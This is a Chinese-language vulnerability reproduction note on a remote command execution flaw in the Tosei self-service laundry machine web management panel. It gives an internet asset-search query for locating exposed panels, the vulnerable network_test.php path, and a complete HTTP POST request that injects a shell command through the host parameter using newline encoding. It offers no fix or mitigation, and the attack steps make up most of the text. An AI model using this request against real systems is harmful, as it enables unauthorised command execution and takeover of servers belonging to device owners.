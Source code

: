 # Tosei 自助洗衣机 web 管理端 network_test.php 文件 host 参数远程命令执行漏洞

# 一、漏洞简介
Tosei 自助洗衣机 是日本 Tosei 公司的一个产品。Tosei 自助洗衣机 web 管理端存在安全漏洞，攻击者利用该漏洞可以通过 network_test.php 的命令执行,在服务器任意执行代码，获取服务器权限，进而控制整个服务器。

# 二、影响版本
+ Tosei 自助洗衣机 web 管理端

# 三、资产测绘
+ hunter`web.body="tosei_login_check.php"`
+ 特征

![1700496989279-62c782a3-21b7-48d2-9e04-6ed199d00499.png](./img/yJFddX_3R3th-rYw/1700496989279-62c782a3-21b7-48d2-9e04-6ed199d00499-769255.png)

# 四、漏洞复现
访问poc出现如下页面表示可能存在漏洞

```plain
/cgi-bin/network_test.php
```

![1700497024236-9303403b-bf49-4e18-a628-52f74865cf9e.png](./img/yJFddX_3R3th-rYw/1700497024236-9303403b-bf49-4e18-a628-52f74865cf9e-898026.png)

修改host参数为想要执行的命令

```plain
POST /cgi-bin/network_test.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Connection: close
Upgrade-Insecure-Requests: 1

host=%0aid%0a&command=ping
```

![1700497061931-b49ccd9b-f202-444d-a21e-0a9b40cc7c69.png](./img/yJFddX_3R3th-rYw/1700497061931-b49ccd9b-f202-444d-a21e-0a9b40cc7c69-543775.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bihozhmkgaeqymw2>